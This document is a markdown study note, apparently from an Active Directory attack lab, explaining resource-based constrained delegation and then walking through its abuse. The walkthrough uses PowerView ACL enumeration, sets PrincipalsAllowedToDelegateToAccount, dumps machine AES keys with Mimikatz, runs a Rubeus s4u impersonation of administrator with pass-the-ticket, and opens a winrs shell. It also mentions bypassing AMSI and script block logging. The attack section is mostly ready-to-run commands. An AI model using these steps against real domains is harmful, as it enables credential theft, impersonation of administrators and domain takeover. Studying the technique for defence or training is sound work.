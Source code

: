 # Resource Based Constrained Delegation
In case of constrained delegation the delegation was configured on the front end server(the first hop) example: the websvc user or the web service server and delegation was controlled using msDS-AllowedToDelegate property and frontend server would delegate the credentials(ticket) to another server. In case of resource based constrained delegation the delegation authority is on the hands of resource administrator. Instead of SPNs on msDs-AllowedToDelegatTo on the front-end service like web service, access in this case is controlled by security descriptor SID of msDS-AllowedToActOnBehalfOfOtherIdentity (visible as PrincipalsAllowedToDelegateToAccount) on the resource/service like SQL Server service. The service owner or administrator can configure this delegation like database administrator.

# Abuse
To abuse RBCD we can first configure it ourselves and then attack it. we need two privileges to abuse it.
- Write permissions over the target service or object to configure msDS-AllowedToActOnBehalfOfOtherIdentity.
- Control over an object which has SPN configured (like admin access to a domain joined machine or ability to join a machine to domain -ms-DS-MachineAccountQuotais 10 for all domain users)

- First we need admin access on our initial machine then using powerview
```
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
```
This would show user ciadmin has write permission(generic write) over dcorp-mgmt machine.

- Since ciadmin was compromised after we got access to dcorp-ci machine via jenkins reverse shell so access dcorp-ci machine bypass scriptblocklogging, amsi. Since this attack is based on first configuring it and abusing it

## Using AD module
Here, on dcorp-mgmt machine we are setting RBCD meaning PrincipalsAllowedToDelegateToAccount for dcorp-student1$ and dcorp-student2$ machines. This configuration means the dcorp-student1$ and dcorp-student2$ machine accounts can access any service on dcorp-mgmt machine as any user including a domain admin.

```
$comps = 'dcorp-student1$', 'dcorp-student2$'
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $comps
```
## Using POwerView
```
Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-student1$'
```
```
Get-DomainRBCD
```
- After this we extract aes keys of dcorp-student1$ and dcorp-student2$ machines 
```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"' 
```
- Use the AES key of dcorp-student1$ or dcorp-student2$ machines with Rubeus and access dcorp-mgmtas ANY user we want:
```
Rubeus.exe s4u /user:dcorp-student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt
```
```
winrs -r:dcorp-mgmt cmd.exe 
```